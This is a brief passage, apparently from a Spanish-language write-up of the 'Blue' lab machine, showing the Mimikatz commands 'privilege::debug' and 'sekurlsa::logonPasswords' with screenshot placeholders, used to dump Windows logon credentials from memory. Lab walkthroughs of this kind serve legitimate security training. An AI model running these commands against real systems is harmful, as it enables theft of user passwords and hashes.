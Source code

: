 Ejecutando:

![Untitled](/assets/img/Blue/Untitled38.png)

### Mimikatz

Realizando:

```bash
privilege::debug
```

![Untitled](/assets/img/Blue/Untitled39.png)

Haciendo

```bash
sekurlsa::logonPasswords
```
